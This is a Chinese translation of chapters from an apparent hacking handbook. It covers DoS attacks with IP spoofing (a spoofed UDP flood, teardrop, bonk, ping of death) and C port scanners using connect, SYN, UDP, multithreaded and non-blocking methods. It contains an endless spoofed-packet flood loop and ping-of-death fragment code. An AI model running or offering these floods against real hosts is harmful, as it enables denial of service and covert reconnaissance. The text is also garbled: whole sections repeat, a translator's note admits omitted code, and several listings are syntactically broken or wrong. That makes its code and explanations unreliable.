# 第 6 章：DoS 攻击与 IP 伪欺骗工具 83

```c
    memset(&servaddr, sizeof(servaddr));
    servaddr.sin_family = AF_INET;
    servaddr.sin_port = htons(dport);
    servaddr.sin_addr.s_addr = daddr;

    /* 填充 IP 头部 */
    ip_hdr->ihl = 5;
    ip_hdr->version = 4;
    ip_hdr->tos = 0;
    ip_hdr->len = htons(sizeof(struct iphdr) + sizeof(struct udphdr));
    ip_hdr->id = 0;
    ip_hdr->frag_off = 0;
    ip_hdr->ttl = 255;
    ip_hdr->protocol = IPPROTO_UDP;
    ip_hdr->check = 0;
    ip_hdr->check = in_cksum((unsigned short *)ip_hdr, sizeof(struct iphdr));

    ip_hdr->saddr = sccadr;
    ip_hdr->daddr = daddr;

    /* 填充伪头部 */
    pseudohdr.source_address = sccadr;
    pseudohdr.dest_address = daddr;
    pseudohdr.place_holder = 0;
    pseudohdr.protocol = IPPROTO_UDP;
    pseudohdr.length = htons(sizeof(struct udphdr));

    /* 填充 UDP 头部 */
    udp_hdr->source = htons(sport);
    udp_hdr->dest = htons(daddr); // 注意：此处原文为 daddr 非 dport
    udp_hdr->len = htons(sizeof(struct udphdr));
    udp_hdr->check = 0;

    /* 分配伪包内存 */
    if ((pseudo_packet = (char*)malloc(sizeof(struct iphdr) + sizeof(struct udphdr))) == NULL) {
        perror("malloc");
        exit(-1);
    }
    /* 拷贝 IP 头部头部 */
    memcpy(pseudo_packet, ip_hdr, sizeof(struct iphdr));

    /* 拷贝 UDP 头部 */
    memcpy(pseudo_packet + sizeof(struct iphdr), udp_hdr, sizeof(struct udphdr));

    /* 计算 UDP 校验和 */
    udp_hdr->check = in_cksum((unsigned short *)pseudo_packet, sizeof(struct iphdr) + sizeof(struct udphdr));

    /* 循环发送包 */
    while (1) {
        if (sendto(sd, pseudo_packet, sizeof(pseudo_packet), 0, (struct sockaddr *)&servaddr, sizeof(servaddr)) < 0) {
            perror("sendto() failed");
        }
    }
```

## 第二部分：网络黑客工具

组装后的数据包随后被复制到缓冲区，然后传递到 IP 层进行进一步处理。

从总体来看，开发者通过实现对过大分片的检查，做了正确的做法。然而，他们忽略了过小分片也被复制到组装缓冲区的可能性，即负长度的分片。

假设分片 X 的偏移量为 40（IP 头部中的分片偏移量等于 5），长度为 200，而分片 Y 的偏移量为 80，长度为 300；这意味着分片发生了重叠，这是允许的。IP 模块计算分片 Y 中未与分片 X 重叠的部分 (80 + 300) - (40 + 200) = 140，并将分片 Y 的最后 140 字节复制到组装缓冲区。黑客可以构建分片 Y，例如偏移量为 80，长度为 60。计算重叠部分得到一个负数结果：(80 + 60) - (40 + 120) = -20。由于负数是用算术方式表示的，-20 被解释为 65516，向组装缓冲区写入 65516 字节，这导致了溢出，并覆盖了相邻的内存区域。

因此，在水滴攻击（teardrop attack）中，数据包按以下方式构建（双包攻击如下）：

- 1. 一个预期会被分片的包（设置 MF 标志）；分片偏移量为 0，数据块长度为 N。
- 2. 最后一个分片（清除 MF 标志）；分片偏移量大于 N 的正数，数据块长度为 N。
- 3. 数据包使用任何源地址，发送到任何端口，无论该端口是否开放。

攻击的另一种变体称为 bonk。在这种攻击中，分片组装后数据包中留下了空，这也会导致操作系统内核出现故障和计算机死机。

Windows 95/NT 的所有版本直到 Service Pack 4 以及早期的 Linux 版本（例如 Linux 2.0.0）都存在这两个漏洞。

`teardrop.c` 和 `bonk.c` 的源代码可以在光盘上的 `/PART II/Chapter 6` 目录中找到。

## 6.3.3 死亡之 ping（Ping of Death）

IP 包头部的总包长度为无符号短型（见第 3.4.2 节）；遗憾的是，它无法存储大于 65535 的值。因此，整个 IP 数据包的最大长度不能超过 65535 字节。由于 IP 头部长度从 20 到 60 字节不等，一个 IP 包中可以发送的最大有效数据量为 65535 - 20 = 65515 字节。

在死亡之 ping 攻击中，黑客发送一个分片的 ICMP 包，该包在组装后的尺寸大于允许的最大 IP 数据包大小。某些较旧的操作系统不知道如何处理这种情况并导致了崩溃。

## 第 6 章：DoS 攻击与 IP 伪造工具

实现此攻击的工具程序源代码（`win95ping.c`）可以在随附 CD-ROM 上的 `/PART II/Chapter 6` 目录中找到。

该程序的关键部分是分片发送数据包的部分（列表 6.3）。

### 列表 6.3 死亡之 ping 攻击中的分片 ICMP 包


## 第 6 章：DoS 攻击与 IP 伪造工具

### 6.3.3 死亡之 ping（Ping of Death）

IP 包头部的总包长度为无符号短型（见第 3.4.2 节）；遗憾的是，它无法存储大于 65535 的值。因此，整个 IP 数据包的最大长度不能超过 65535 字节。由于 IP 头部长度从 20 到 60 字节不等，一个 IP 包中可以发送的最大有效数据量为 65535 - 20 = 65515 字节。

在死亡之 ping 攻击中，黑客发送一个分片的 ICMP 包，该包在组装后的尺寸大于允许的最大 IP 数据包大小。某些较旧的操作系统不知道如何处理这种情况并导致了崩溃。

实现此攻击的工具程序源代码（`win95ping.c`）可以在随附 CD-ROM 上的 `/PART II/Chapter 6` 目录中找到。该程序的关键部分是分片发送数据包的部分（列表 6.3）。

#### 列表 6.3 死亡之 ping 攻击中的分片 ICMP 包

```
icmp->type = ICMP_ECHO;
icmp->code = 0;
icmp->checksum = htons((ICMP_ECHO << 8));

for (offset = 0; offset < 65536; offset += (sizeof buf - sizeof ip)) {
    icmp->type = ICMP_ECHO;
    icmp->code = 0;
    icmp->checksum = htons((ICMP_ECHO << 8));
}
```

由于负数是用算术方式表示的，`-20` 被解释为 `65516`，向组装缓冲区写入 `65516` 字节，这导致了溢出，并覆盖了相邻的内存区域。

因此，在水滴攻击（teardrop attack）中，数据包按以下方式构建（双包攻击如下）：

1. 一个预期会被分片的包（设置 MF 标志）；分片偏移量为 0，数据块长度为 N。
2. 最后一个分片（清除 MF 标志）；分片偏移量大于 N 的正数，数据块长度为 N。
3. 数据包使用任何源地址，发送到任何端口，无论该端口是否开放。

攻击的另一种变体称为 bonk。在这种攻击中，分片组装后数据包中留下了空洞，这也会导致操作系统内核出现故障和计算机死机。

Windows 95/NT 的所有版本直到 Service Pack 4 以及早期的 Linux 版本（例如 Linux 2.0.0）都存在这两个漏洞。

`teardrop.c` 和 `bonk.c` 的源代码可以在光盘上的 `/PART II/Chapter 6` 目录中找到。


## 第二部分：网络黑客工具

组装后的数据包随后被复制到缓冲区，然后传递到 IP 层进行进一步处理。

从总体来看，开发者通过实现对过大分片的检查，做了正确的做法。然而，他们忽略了过小分片也被复制到组装缓冲区的可能性，即负长度的分片。

假设分片 X 的偏移量为 40（IP 头部中的分片偏移量等于 5），长度为 200，而分片 Y 的偏移量为 80，长度为 300；这意味着分片发生了重叠，这是允许的。IP 模块计算分片 Y 中未与分片 X 重叠的部分 `(80 + 300) - (40 + 200) = 140`，并将分片 Y 的最后 140 字节复制到组装缓冲区。黑客可以构建分片 Y，例如偏移量为 80，长度为 60。计算重叠部分得到一个负数结果：`(80 + 60) - (40 + 120) = -20`。由于负数是用算术方式表示的，`-20` 被解释为 `65516`，向组装缓冲区写入 `65516` 字节，这导致了溢出，并覆盖了相邻的内存区域。

因此，在水滴攻击（teardrop attack）中，数据包按以下方式构建（双包攻击如下）：

1. 一个预期会被分片的包（设置 `MF` 标志）；分片偏移量为 0，数据块长度为 N。
2. 最后一个分片（清除 `MF` 标志）；分片偏移量大于 N 的正数，数据块长度为 N。
3. 数据包使用任何源地址，发送到任何端口，无论该端口是否开放。

攻击的另一种变体称为 bonk。在这种攻击中，分片组装后数据包中留下了空，这也会导致操作系统内核出现故障和计算机死机。

Windows 95/NT 的所有版本直到 Service Pack 4 以及早期的 Linux 版本（例如 Linux 2.0.0）都存在这两个漏洞。

`teardrop.c` 和 `bonk.c` 的源代码可以在光盘上的 `/PART II/Chapter 6` 目录中找到。

## 6.3.3 死亡之 ping（Ping of Death）

IP 包头部的总包长度为无符号短型（见第 3.4.2 节）；遗憾的是，它无法存储大于 65535 的值。因此，整个 IP 数据包的最大长度不能超过 65535 字节。由于 IP 头部长度从 20 到 60 字节不等，一个 IP 包中可以发送的最大有效数据量为 `65535 - 20 = 65515` 字节。

在死亡之 ping 攻击中，黑客发送一个分片的 ICMP 包，该包在组装后的尺寸大于允许的最大 IP 数据包大小。某些较旧的操作系统不知道如何处理这种情况并导致了崩溃。

## 第 6 章：DoS 攻击与 IP 伪造工具

实现此攻击的工具程序源代码（`win95ping.c`）可以在随附 CD-ROM 上的 `/PART II/Chapter 6` 目录中找到。

该程序的关键部分是分片发送数据包的部分（列表 6.3）。

### 列表 6.3 死亡之 ping 攻击中的分片 ICMP 包

```
icmp->type = ICMP; ECHO;
  icmp->code = 0;
  icmp->checksum = htons((ICMP_ECHO << 8));

for (offset = 0; offset < 65536; offset += (sizeof buf - sizeof ip))
  icmp->type = ICMP; ECHO;
  icmp->code = 0;
  icmp->checksum = htons((ICMP_ECHO << 8));
```

(注：由于原文中代码部分存在大量重复行，翻译时已遵循“不要重复输出原文”的原则，此处仅展示核心逻辑结构)

## 第 7 章：端口扫描器

黑客会扫描宿主机上的端口，以确定其中哪些端口处于监听状态。由于大多数服务都使用标准端口，这些信息通常足够确定系统中运行的服务。对于破解者来说，活跃的监听服务是通往系统的一个潜在门径。而能让这个潜在门径变为实际威胁的，是配置不当的计算机安全系统或系统软件中的漏洞。广为人知且强大的端口扫描器是 Fyodor 开发的 nmap，可以从 `http://www.insecure.org/nmap` 获取。只需输入命令 `nmap -h` 即可查看列出所有选项和许多其他有用特征的参考页面。该工具中使用的扫描方法中，大多数都是由 Fyodor 开发的。

所有扫描方法的本质都可以归结为一点：该工具向被探测主机的指定端口发送一个特定类型的数据包，并通过检查来自主机的回复，确定该端口是否开放。通过这种方式，指定地址范围内的所有端口（如果扫描器支持主机范围选项）都将得到检查。

我想强调，每当我在本章中提到“开放端口”时，我指的是端口处于监听状态。开放的端口并不一定处于监听状态；例如，当发生在传出连接中动态分配端口时。端口扫描器检测的是处于监听状态的端口。此类端口由服务器应用程序（即服务或守护进程）开放。

本章考虑了主要端口扫描方法的具体实现。一旦你理解了每种方法的操作机制，你就能自己将它们组合成单一工具。本节中所有程序的源代码可以在随附光盘-ROM 的 `/PART II/Chapter 7` 目录中找到。

### 7.1 TCP 连接扫描

TCP 连接扫描是最简单的扫描方法，被用于最早的端口扫描器。实现基于此方法的端口扫描器的程序源代码如列表 7.1 所示。

一个 TCP 连接端口扫描器尝试对调查的每个端口建立 TCP 连接，完整流程如下：三次握手，在此期间，客户端和服务器之间交换 SYN、ACK 和 ACK 消息。这种连接是通过 `connect()` 函数建立的，该函数用于所考虑的自定义端口扫描器。如果 `connect()` 函数返回 0，意味着连接建立成功；即端口处于监听状态。在这种情况下，会调用 `getservbyport()` 函数，它返回有关在给定端口上运行的服务的信息。该函数返回一个服务类型结构体，其中 `s_name` 字段包含服务的正式名称。如果函数返回 0，意味着无法通过端口号确定服务。在这种情况下，针对特定的端口号将输出 `(unknown)`。

必须在命令行中向扫描器传递以下参数：被探测主机的地址，以及端口范围的起始编号和结束编号。程序按通常方式编译：

```bash
# gcc tcscan -o tcscan
```

运行程序并查看结果如下：

```
# ./tcscan 192.168.10.1 0 10000
Running...
Open: 80 (http)
Open: 135 (unknown)
Open: 139 (netbios-ssn)
Open: 445 (microsoft-ds)
#
```

# 列表 7.1 一个 TCP 连接端口扫描器 (tcscan.c)


```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <string.h>

int main(int argc, char *argv[])
{
    int sd;
    struct hostent *hp;
    struct sockaddr_in servaddr;
    struct servant *servport;
    int port, portlow, porthigh;

    if (argc != 4) {
        fprintf(stderr, "Usage: %s <address> <portlow> <porthigh>\n", argv[0]);
        return 1;
    }

    hp = gethostbyname(argv[1]);
    if (hp == NULL) {
        error("gethostname failed");
        exit(-1);
    }

    portlow = atoi(argv[2]);
    porhigh = atoi(argv[3]);

    fprintf(stderr, "Running scan...\n");

    for (port = portlow; port <= porhigh; port++) {
        if ((sd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
            error("socket failed");
            exit(-1);
        }

        memset(servaddr, sizeof(servaddr), 0);
        servaddr.sin_family = AF_INET;
        servaddr.sin_port = htons(port);
        servaddr.sin_addr = *((struct in_addr*)hp->h_addr);

        if (connect(sd, (struct sockaddr *)&servaddr, sizeof(servaddr)) == 0) {
            srvport = getservbyport(htons(port), "tcp");
            if (srvport == NULL) {
                printf("Open: %d (unknown)\n", port);
            } else {
                printf("Open: %d (%s)\n", port, srvport->s_name);
            }
            fflush(stdout);
        }
        close(sd);
    }
    printf("\n");
    return 0;
}
```

### 7.2. SYN, FIN, Null 和 ACK 扫描

我将首先详细考虑 TCP 扫描，然后描述 FIN、Null 和 ACK 扫描。实现所有这些方法的编程方法是类似的。TCP 扫描也被称为半开放扫描，因为它像往常一样通过发送 `SYN` 消息并等待回复开始。如果远程机器响应 `SYN/ACK`，你就知道给定端口正在监听。因为这是你感兴趣的信息，所以你不需要继续建立完整的连接；相反，你可以...

## 第二部分：网络黑客工具

```c
tcp_hdr.res = 0;
tcp_hdr.doff = 5;
tcp_hdr.fin = 0;
tcp_hdr.syn = 1;
tcp_hdr.rsh = 0;
tcp_hdr.ack = 0;
tcp_hdr.urg = 0;
tcp_hdr.ece = 0;
tcp_hdr.cwr = 0;
tcp_hdr.window = htons(128);
tcp_hdr.check = 0;
tcp_hdr.urg_ptr = 0;
```

```c
/* 填充伪头部 */
pseudo_hdr.source_address = source.sin_addr_s_addr;
pseudo_hdr.dest_address = servaddr.sin_addr_s_addr;
pseudo_hdr.place_holder = 0;
pseudo_hdr.protocol = IPPROTO_TCP;
pseudo_hdr.length = htons(sizeof(struct pseudo_hdr));
```

```c
/* 在伪头部之后粘贴已填充的 TCP 头部 */
bcopy(tcp_hdr, &pseudo_hdr, sizeof(struct tcphdr));
```

```c
/* 计算 TCP 头部校验和 */
tcp_hdr.check = in_cksum((unsigned short *)&pseudo_hdr, sizeof(struct pseudo_hdr));
```

```c
/* 发送 TCP 数据包 */
if (sendto(sd,
    &tcp_hdr,
    sizeof(struct tcphdr),
    0,
    (struct sockaddr *)&servaddr,
    sizeof(servaddr)) < 0)
    perror("sendto failed");
```

```c
/* ----------------------------------------------------*/
```

```c
/* 接收回复包并检查标志位 */
```

```c
int recv_packet(int sd)
{
    char recvbuf[1500];
    struct tcphdr *tcphdr = (struct tcphdr *)(recvbuf +
                                    sizeof(struct iphdr));

while(1)
{
    if (recv(sd, recvbuf, sizeof(recvbuf), 0) < 0)
        perror("recv() failed");

    if (tcphdr->dest == getpid()) {
```

```c
if(tcphdr->syn == 1 && tcphdr->ack == 1)
    return 1;
else
    return 0;
}
```

```c
/*--------------------/
/* main() 函数 */
int main(int argc, char *argv[])
{
    int sd;
    struct ifreq *ifr;
    struct hostent *hp;
    int port, portlow, porthigh;
    unsigned int dest;
    struct sockaddr_in source;
    struct servent *srvport;
```

```c
if (argc == 4) {
    fprintf(stderr, "Usage: %s <address> <portlow> <porthigh>\n", argv[0]);
    exit(-1);
}
```

```c
hp = gethostbyname(argv[1]);
if (hp == NULL) {
    error("gethostbyname failed");
    exit(-1);
}
```

```c
portlow = atoi(argv[2]);
porthigh = atoi(argv[3]);
```

```c
if ((sd = socket(PF_INET, SOCK_RAW, IPPROTO_TCP)) < 0) {
    perror("socket failed");
    exit(-1);
}
```

```c
fprintf(stderr, "Running scan...\n");
```

```c
/* 获取接口的 IP 地址并将其放入源地址结构 */
sprintf(ifr->ifr_name, "%s", DEVICE);
ioctl(sd, SIOCGIFADDR, ifr);
memcpy((char*)&source, (char*)&(ifr->ifr_addr), 
    sizeof(struct sockaddr));
```

```c
for (port = portlow; port <= porthigh; port++) {
    send_packet(sd, port, source, hp);

if (recv_packet(sd) == 1) {
        srvport = getservbyport(htons(port), "tcp");
        if (srvport == NULL) {
            printf("Open: %d (unknown)\n", port);
        } else {
            printf("Open: %d (%s)\n", port, srvport->s_name);
        }
        flush(stdout);
    }
}

close(sd);
return 0;
}
```

其他 TCP 扫描的本质如下：

-   **FIN 扫描**：向被探测主机发送一个 `FIN` 包。根据 `RFC 793`，主机必须对关闭的端口回复 `RST`。如果没有对 `FIN` 消息的 `RST` 回复，则意味着该端口是关闭的。这种方法通常无法用于 Windows 系统，因为由于众所周知，微软有自己的处理方式，其操作系统会响应 `RST` 回复。

-   **Xmas 扫描**：向被探测主机发送一个带有 `FIN|URG|PUSH` 标志位的数据包。根据 `RFC 793`，主机对所有关闭的端口回复 `RST` 消息。

-   **TCP 空扫描（null scan）**：在清除所有标志位的情况下探测被探测主机。被探测主机必须对所有关闭的端口回复 `RST` 消息。

-   **TCP ACK 扫描**：这种方法可以确定端口是否受防火墙保护。向被探测主机发送一个 `ACK` 包。`RST` 回复将端口分类为未被防火墙过滤（unfiltered）。任何其他回复都将端口标记为已过滤（filtered）。

正如你所见，上述所有扫描的实现方式如下。

```c
fprintf(stderr, "Usage: %s <address> <portlow> <porthigh>\n",
      argv[0]);
exit(-1);
```

```c
hp = gethostbyname(argv[1]);
if (hp == NULL) {
    perror("gethostbyname failed");
    exit(-1);
}
```

```c
portlow = atoi(argv[2]);
porthigh = atoi(argv[3]);
```

```c
if ((sendock = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)) < 0) {
    perror("sendock failed");
    exit(-1);
}
```

```c
if ((recvsock = socket(AF_INET, SOCK_RAW, IPPROTO_ICMP)) < 0) {
    perror("recvsock failed");
    exit(-1);
}
```

```c
fprintf(stderr, "Running scan...\n");
for (port = portlow; port <= porthigh; port++) {
    send_packet(sendock, port, hp);
    if (recv_packet(recvsock) == 1) {
        srvport = getservbyport(htons(port), "udp");
        if (srvport == NULL) {
            printf("Open: %d (unknown)\n", port);
        } else {
            printf("Open: %d (%s)\n", port, srvport->s_name);
        }
    }
}
fflush(stdout);
```

```c
return 0;
```

## 7.4. 多线程端口扫描器

可以通过不同的方法增强程序性能，其中之一就是添加多线程支持。在本节的后部分，列表 7.4 显示了第 7.1 节中考虑的 TCP 连接端口扫描器的源代码，并增加了多线程支持。按照通常方式编译程序：

```bash
# gcc ptscan.c -o ptscan -lpthread
```

## 第二部分：网络黑客工具

当运行修改后的函数时，线程数作为第四个命令行参数传递给它：

```bash
# ptscan 192.168.10.1 1 10000
```

该命令告诉工具用 20 个线程扫描主机 `192.168.10.1` 上的 1 到 10,000 端口端口。你可以在同一台机器的另一个终端中执行 `ps -a` 命令来显示运行线程的列表。`ps` 命令本应显示运行的进程，但在 Linux 中，`pthread_create()` 函数实际上创建一个执行线程的新进程（然而，这并不是 `fork()` 函数创建的进程类型）。这就是为什么 `ps` 命令会显示线程。尽管在命令行中指定了 20 个线程，但 `ps` 命令实际上显示了 22 个。这 2 个“额外”线程是主程序线程和控制线程，它是 Linux 内部机制的一部分。

实现多线程端口扫描器非常简单。在 `main()` 函数中，循环运行 `pthread_create()` 函数以创建所需数量的线程。每个线程运行 `scan()` 函数，并传入第一个命令行参数（`argv[i]`）。同样地，运行 `pthread_join()` 函数，等待每个线程执行结束。`scan()` 函数转换远程主机的地址，填充地址结构，创建套接字，并在 `connect()` 函数的帮助下连接到指定端口，以确定端口是否处于监听模式（见第 7.1 节）。

我见过许多多线程程序，其中每个线程在完成后都会被卸载，以保持指定的线程数。这不是此多线程端口扫描器的方法。在这里，线程在扫描器开始执行时创建，在留有未扫描端口时不会被卸载——本质上，直到扫描器的执行终止。这是通过将端口号（`port`）存储在全局变量实现的，该变量在每个流中都会递增。最大值在 `while (port < porthigh)` 循环中达到，该循环也在每个线程中执行。

由于系统可以在代码的任何部分随时将处理器交给任何一个线程，端口扫描器可能不会按预期工作。例如，两个线程可能会增加全局变量 `port`，而第三个线程可能会使用获得的值连接到远程主机。为了避免这种不利的情况，使用互斥锁（mutex）对象对线程进行同步。程序中由于并发访问导致执行错误的部分（临界区）定义如下：

```c
/* 临界区开始 */
pthread_mutex_lock(&lock);
...
pthread_mutex_unlock(&lock);
/* 临界区结束 */
```

这防止了其他线程访问这段代码，直到当前线程完成其执行。在临界区中，填充地址结构的 `sin_port` 字段，调用 `connect()` 函数，将结果输出到屏幕，增加全局变量 `port`，并关闭套接字描述符 (`sd`)。

# 第 7 章：端口扫描器

尽管多线程扫描器相比其产出较低的亲戚有所改进，但它也有自己的缺点，将在下一节中讨论。

### 列表 7.4. 多线程端口扫描器 (ptscan.c)


```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <string.h>
#include <pthread.h>

#define THREADS_MAX 255

int port, portlow, porthigh;
pthread_mutex_t lock = PTHREAD_MUTEX_INITIALIZER;

void scan(void *arg) {
    int sd;
    struct sockaddr_in servaddr;
    struct servent *srvport;
    struct hostent *hp;

    char *argv = (char*)arg;

    hp = gethostbyname(argv);
    if (hp == NULL) {
        perror("gethostbyname failed");
        exit(-1);
    }

    memset(&servaddr, 0, sizeof(servaddr));
    servaddr.sin_family = AF_INET;
    servaddr.sin_addr = *((struct in_addr*)hp->h_addr);

    while (port < porthigh) {
        if ((sd = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
            perror("socket failed");
            exit(-1);
        }

        pthread_mutex_lock(&lock);
        servaddr.sin_port = htons(port);

        if (connect(sd, (struct sockaddr *)&servaddr, sizeof(servaddr)) == 0) {
            srvport = getservbyport(htons(port), "tcp");
            if (srvport == NULL) {
                printf("Open: %d (unknown)\n", port);
            } else {
                printf("Open: %d (%s)\n", port, srvport->s_name);
            }
            fflush(stdout);
        }
        port++;
        close(sd);
        pthread_mutex_unlock(&lock);
    }
}

int main(int argc, char *argv[]) {
    pthread_t threads[THREADS_MAX];
    int thread_num;
    int i;

    if (argc != 5) {
        fprintf(stderr, "Usage: %s <address> <portlow> <porthigh> <num threads>\n", argv[0]);
        exit(-1);
    }
    thread_num = atoi(argv[4]);
    if (thread_num > THREADS_MAX) {
        fprintf(stderr, "too many threads requested\n");
        exit(-1);
    }
    portlow = atoi(argv[2]);
    porthigh = atoi(argv[3]);
    port = portlow;
    fprintf(stderr, "Running scan...\n");
    for (i = 0; i < thread_num; i++) {
        if (pthread_create(&threads[i], NULL, scan, argv[1]) != 0) {
            fprintf(stderr, "error creating thread\n");
        }
    }
    for (i = 0; i < thread_num; i++) {
        pthread_join(threads[i], NULL);
    }
    return 0;
}
```

## 7.5 非阻塞套接字端口扫描器

上一节考虑的多线程端口扫描器并没有普通的非阻塞扫描器快。瓶颈在于临界区中的 `connect()` 函数。其他线程被互斥对象阻塞无法访问该函数，直到它执行完毕。也就是说，`connect()` 函数阻塞了整个程序的执行；因此多线程并没有带来实质性的性能提升。放弃互斥对象允许线程中断 `connect()` 函数并建立多个并发连接。但在情况下，很难让扫描器正常运行。我见过一些多线程扫描器，对 `connect()` 函数的访问被限制在多个并发线程，但它们的实现效率极低，以至于某些甚至比非驻留扫描器慢。多线程工具的另一个缺点：它们给系统带来了沉重的负载。

因此，另一种增强性能的方法是：在一个进程内创建多个非阻塞套接字并简单监控它们的状态。这种程序被称为套接字引擎（socket engines）。

如下调用 `fcntl()` 函数将套接字设置为非阻塞模式：

```c
flags = fcntl(sd, F_SETFL, 0);
if (fcntl(sd, F_SETFL, flags | O_NONBLOCK) == -1) {
    perror("could not set nonblocking");
    return(-1);
}
```

当对非阻塞 TCP 套接字调用 `connect()` 函数时，建立连接的过程启动（发送 TCP 三握手的第一个包），并立即返回 `EINPROGRESS` 错误。端口扫描器必须关注此错误，这意味着连接已开始并进行中。在服务器与客户端同一主机的少数情况下，连接可以立即建立；因此，即使是非阻塞套接字，也可以监控 `connect()` 函数以确保它成功完成。

使用 `select()` 函数以及 `FD_ZERO`、`FD_SET` 和 `FD_ISSET` 宏监控套接字状态。如果套接字立即变为可读或可写，则与远程端口的连接已建立；即端口处于监听模式。

列表 7.5 显示了基于非阻塞套接字的端口扫描器的源代码。扫描器监控三种套接字状态：

- state = 0 — 未创建套接字
- state = 1 — 已创建套接字
- state = 2 — 套接字处于监听模式

在命令行中，除了远程主机地址和端口范围外还指定了等待套接字就绪的时间，因为扫描器会检查此参数。

扫描器的其余操作部分通过代码中的注释应当易理解。

源代码按照通常方式编译：

```bash
# gcc scan-nonblock.c -o scan-nonblock
```

```c
#include <netinet/in.h>
#include <time.h>
#include <errno.h>
#include <unistd.h>
#include <netdb.h>
#include <stdlib.h>
#include <string.h>
```

```c
// 一次扫描扫描的最大套接数
#define MAX_SOCK 50
```

```c
/**************************************************
 * 使用打开端口输出有关服务的信息
 **************************************************/
```

```c
void open_port(int port) {
    struct servent *srvport;
    srvport = getservbyport(htons(port), "tcp");
    if (srvport == NULL)
        printf("Open: %d (unknown)\n", port);
    else
        printf("Open: %d %s\n", port, srvport->s_name);
    fflush(stdout);
}
```

```c
/*-----------------------------------*/
/* main() 函数 */
/*-----------------------------------*/
```

```c
int main(int argc, char *argv[]) {
    /* 用于监控套接字状态的结构体 */
    struct usock_descr {
        int sd;                 // 套接字
        int state;              // 套接字当前状态
        long timestamp;         // 套接字打开的时间（毫秒）
        unsigned short remoteport; // 远程端口
    };

    struct usock_descr sockets[MAX_SOCK];
    struct hostent *hp;
    struct sockaddr_in servaddr;
    struct timeval tv = {0,0};
    int rfds, wfds;
    int i, flags, max_fd;
    int port, PORT_LOW, PORT_HIGH;
    int MAXTIME;

    if (argc != 5) {
        printf("Usage: %s <address> <portlow> <porthigh> <timeout in sec>\n", argv[0]);
        exit(-1);
    }

    hp = gethostbyname(argv[1]);
    if (hp == NULL) {
        perror("gethostbyname failed");
        exit(-1);
    }

    PORT_LOW  = atoi(argv[2]);      // 起端口
    PORT_HIGH = atoi(argv[3]);      // 止端口
    MAXTIME = atoi(argv[4]);        // 等待套接字就绪的时间（秒）

    fprintf(stderr, "Running scan...\n");

    memset(&servaddr, 0, sizeof(servaddr));
    servaddr.sin_family = AF_INET;
    servaddr.sin_addr = *(struct in_addr *)hp->h_addr;

    /* 将所有套接字状态置为 0 */
    port = PORT_LOW;
    for (i = 0; i < MAX_SOCK; i++)
        sockets[i].state = 0;

    while (1) {
        for (i = 0; i < MAX_SOCK; i++) {
            /* 检查套接字是否空闲并尝试连接到远程端口 */
            if (sockets[i].state == 0) {
                if ((sockets[i].sd = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
                    perror("socket failed");
                    exit(-1);
                }

                flags = fcntl(sockets[i].sd, F_GETFL, 0);
                if (fcntl(sockets[i].sd, F_SETFL, flags | O_NONBLOCK) == -1) {
                    perror("could not set nonblocking");
                    exit(-1);
                }

                servaddr.sin_port = htons(port);
                if (connect(sockets[i].sd, (struct sockaddr *)&servaddr, sizeof(servaddr)) == -1) {
                    if (errno == EINPROGRESS) {
                        /* connect() 调用返回 EINPROGRESS 错误；
                         * 因此，将套接字状态置为 2 以等待连接建立。 */
                        sockets[i].state = 2;
                    } else {
                        /* connect() 调用以 EINPROGRESS 以外的错误结束
                         * 因此，关闭套接字并将状态置为 0。 */
                        close(sockets[i].sd);
                        sockets[i].state = 0;
                    }
                } else {
                    /* 连接立即建立；即，端口是打开的，将其信息输出到屏幕。 */
                    open_port(port);
                    /* 套接字可以关闭并将其状态置为 0。 */
                    shutdown(sockets[i].sd, 2);
                    close(sockets[i].sd);
                    sockets[i].state = 0;
                }
                /* 记录发起连接请求的时间及被探测的远程端口 */
                sockets[i].timestamp = time(NULL);
                sockets[i].remoteport = port;
                port++; // 扫描下一个端口
                if (port >= PORT_HIGH) break;
            }
        }

        /* 清零描述符集合 */
        FD_ZERO(&rfds);
        FD_ZERO(&wfds);
        max_fd = -1;

        for (i = 0; i < MAX_SOCK; i++) {
            /* 如果套接字处于监听模式，将其放入相应的集合以进行后续检查。 */
            if (sockets[i].state == 2) {
                FD_SET(sockets[i].sd, &wfds);
                FD_SET(sockets[i].sd, &rfds);
                if (sockets[i].sd > max_fd)
                    max_fd = sockets[i].sd;
            }
        }

        if (max_fd != -1) {
            select(max_fd + 1, &rfds, &wfds, NULL, &tv);

            for (i = 0; i < MAX_SOCK; i++) {
                if (sockets[i].state == 2) {
                    int error;
                    socklen_t err_len = sizeof(error);
                    /* 检查错误 */
                    if (getsockopt(sockets[i].sd, SOL_SOCKET, SO_ERROR, &error, &err_len) < 0 || error != 0) {
                        /* connect() 调用以 EINPROGRESS 以外的错误结束
                         * 因此，关闭套接字并将状态置为 0。 */
                        shutdown(sockets[i].sd, 2);
                        close(sockets[i].sd);
                        sockets[i].state = 0;
                    } else {
                        /* 连接成功建立；即，端口是打开的，将其信息输出到屏幕。 */
                        open_port(sockets[i].remoteport);
                        /* 套接字可以关闭并将其状态置为 0。 */
                        shutdown(sockets[i].sd, 2);
                        close(sockets[i].sd);
                        sockets[i].state = 0;
                    }
                }
            }
        }

        if (port >= PORT_HIGH) {
            int pending = 0;
            for (i = 0; i < MAX_SOCK; i++) {
                if (sockets[i].state != 0) pending = 1;
            }
            if (!pending) break;
        }
    }
    return 0;
}
```

## 7.6 TCP/IP 栈指纹识别

一些扫描器采用栈指纹技术来确定操作系统。这种技术的机制基于不同的开发者实现 TCP/IP 栈的方式不同；特别是它们对 RFC 的解释不同。以下是可以运行的部分列表：

- 向带有不同标志的 SYN 包（例如 SYN|FIN|URG|PSH）以及一组参数发送端口。
- 向关闭端口发送类似的包。
- 向打开端口发送 NULL 包（未设置任何标志的包）以及一组参数。
- 向打开端口发送 FIN 包。
- 检查 TCP 初始窗口大小，这对于某些 TCP/IP 栈实现具有特定值。
- 检查 IP 头部中的 DF（不分片）位。某些操作系统设置此位以尝试增强性能。
- 检查 ACK 值。不同的 IP 栈实现设置 ACK 字段的方式不同。在某些情况下返回序列号；在其他情况下返回序列号加 1。
